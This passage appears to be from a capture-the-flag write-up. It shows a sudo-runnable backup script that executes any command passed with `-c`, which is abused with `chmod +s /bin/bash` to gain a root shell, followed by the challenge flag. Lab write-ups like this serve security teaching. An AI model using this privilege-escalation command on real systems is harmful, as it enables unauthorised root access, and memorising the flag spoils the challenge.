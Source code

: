 ```bash

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"

echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"

cmd=$($command)
echo $cmd
```
{% endcode %}

* Looking inside the `while` look, we can see that the program takes in user command identified by `-c`, and executes it.
* Using this knowledge, we can set the `suid` bit on the `/bin/bash` file.

```
$ sudo /etc/mp3backups/backup.sh -c "chmod +s /bin/bash"
```

* Now on executing the `bash` command, we will get root privilege.
* Let's check our effective ID.

```
bash-4.3# id
uid=1000(alex) gid=1000(alex) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare),1000(alex)
```

* We can now go the `/root` directory.

```
bash-4.3# cd /root
bash-4.3# ls
root.txt
```

* Let's `cat` the flag.

```
bash-4.3# cat root.txt 
flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}
```

### Answer

```
flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}
```
